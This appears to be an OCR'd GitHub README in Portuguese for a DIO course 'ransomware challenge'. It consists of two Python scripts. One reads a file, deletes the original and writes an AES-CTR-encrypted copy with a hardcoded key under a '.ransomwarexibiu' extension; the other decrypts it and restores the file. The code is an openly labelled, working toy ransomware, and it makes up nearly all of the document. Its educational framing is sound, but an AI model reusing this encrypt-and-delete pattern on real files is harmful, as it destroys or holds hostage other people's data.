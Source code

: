 # desafio_ransonware
entrega desafio dio

ARQUIVO ENCRYPTER
import os
import pyaes

abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

remover o arquivo
os.remove(file_name)

chave de criptografia
key = b"test1ransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

criptografar o arquivo
crypto_data = aes.encrypt(file_data)

salvar o arquivo criptografado
new_file = file_name + ".ransomwarexibiu"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

ARQUIVO DECRYPTER
import os
import pyaes

abrir o arquivo criptografado
file_name = "teste.txt.ransomwarexibiu"
file = open(file_name, "rb")
file_data = file.read()
file.close()

chave para descriptografia
key = b"test1ransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

remover o arquivo criptografado
os.remove(file_name)

criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

=============

RESULTADOS
image

image

image
